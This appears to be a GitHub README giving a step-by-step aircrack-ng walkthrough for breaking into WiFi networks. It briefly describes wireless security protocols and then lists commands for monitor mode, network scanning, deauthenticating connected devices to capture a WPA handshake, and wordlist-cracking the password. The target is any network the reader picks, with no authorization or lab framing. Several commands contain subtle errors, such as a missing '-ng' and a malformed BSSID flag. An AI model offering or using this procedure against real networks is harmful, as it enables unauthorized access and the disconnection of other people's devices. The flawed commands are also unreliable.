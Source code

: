 ## 🛜 How to Hack a Wifi - Step By Step

In this Document i will guide step by step how to hack a wifi. YT Video: https://youtu.be/pGA_qOCNFfA


---

### ℹ️ Basic Information

#### 1. Network Protocols
- **WEP**: Obsolete protocol
- **WPA**: Improved security and vulnerabilities in weak keys
- **WPA2**: More secure than WPA, uses AES/PSK as an encryption method and vulnerabilities in weak keys
- **WPA3**: Latest protocol with more brute force protection but there are still networks that don't implement it

#### 2. Encryption and authentication methods
- **Temporary Key Integrity Protocol(TKIP)**: Legacy protocol with dynamic key per packet and vulnerable to brute force.
- **Advanced Encryption Standard (AES)**: Secure symmetric encryption used in WPA2/WPA3 and standard in modern networks
- **Pre-Shared Key(PSK)**: Common protocol with shared key and vulerable to brute force.

---

### 📋 Requirements:
- Have Installed **aircrack-ng**.
- Wifi Adapter in Mode **Monitor**.

---


### 1. Download Aircrack-ng if you don't have Kali Linux
The first thing we need to do is install **aircrack-ng**. So to install it we need to type on the terminal: ```sudo apt-get install aircrack-ng```.

---

### 2. Turn Wifi Adapter into Mode Monitor
When we have installed aircrack-ng the next step will be turning the adapter into mode monitor. So to do that we need to go to terminal and add this command: ```sudo airmon-ng start [interface of the adapter]```.

If we don't know the interface of the adapter we will do a ```ipconfig``` to look which interfaces we have.

---

### 3. Scanning the Wifi Networks
To scan the wifi's that we could connect we will use the command: ```sudo airodump-ng [interface + mon]```. With this command we could see all the possible wifi networks, but we will focus on the one you want.

---

### 4. Capturing the Handshake
When we know the BSSID and the chanel of the wifi network we will do a handshake focus only that network. Adding this command: ```sudo airodump -c [channel of the wifi] -bssid [BSSID of the network] -w [name for the file] [interface of the adapter + mon]```.

Then we will do ```sudo aireplay-ng -0 5 -a [BSSID] -c [STATION number of the device] [interface of the adapter + mon]```to make an attack to the devices connected to capture the Handshake.

---

### 5. Cracking the password
Finally to have the password of the wifi network we need to write this command: ```sudo aircrack-ng -w [rute of wordlist.txt] [file .pcap]``` and this command will search the password trying all words of the wordlist.

---

